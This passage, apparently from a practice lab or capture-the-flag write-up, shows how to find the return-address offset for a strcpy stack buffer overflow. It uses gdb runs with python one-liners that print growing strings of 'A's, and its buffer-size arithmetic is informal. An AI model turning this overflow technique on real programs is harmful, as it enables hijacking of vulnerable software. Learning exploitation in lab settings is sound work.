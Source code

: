 ### Find Offset

The offset is the size of the payload that includes the "buffer" all the way up to overwriting the EIP (return address)

we can see the entry point for our overflow in the source code:

```c
  char buffer[154] = "doggo";
  strcpy(buffer, string)
```

our equation for the offset, works something like this:

`payload = buffer + return_address + pad` - where `pad` is some arbitrary number we adjust to see the program "crash" out and show us a return address that starts getting overwritten with `'A's`

e.g.

```sh
Program received signal SIGSEGV, Segmentation fault.
0x0000000000414141 in ?? ()
```

We can see that `buffer` is `154 - doggo` = `149` - (we'll keep writing it as `154-5`. And we know that the return address is `6 bytes`.

So now our equation looks like : `payload = (154-5) + 6 + pad` for which we don't know what `pad` equals, so we run a python line to start determining what `pad` is.

Let's start with `8 bytes` i.e. `(154-5+6+8)` and keep incrementing that until we see our `A`'s (`\x41`) start overwriting the return address:

```sh
(gdb) run $(python -c "print 'A'*(154-5+6+8)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print 'A'*(154-5+6+8)")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGILL, Illegal instruction.
0x0000000000400500 in __do_global_dtors_aux ()
(gdb) run $(python -c "print 'A'*(154-5+6+9)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print 'A'*(154-5+6+9)")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400041 in ?? ()
(gdb) run $(python -c "print 'A'*(154-5+6+10)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print 'A'*(154-5+6+10)")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000004141 in ?? ()
(gdb) run $(python -c "print 'A'*(154-5+6+11)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print 'A'*(154-5+6+11)")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```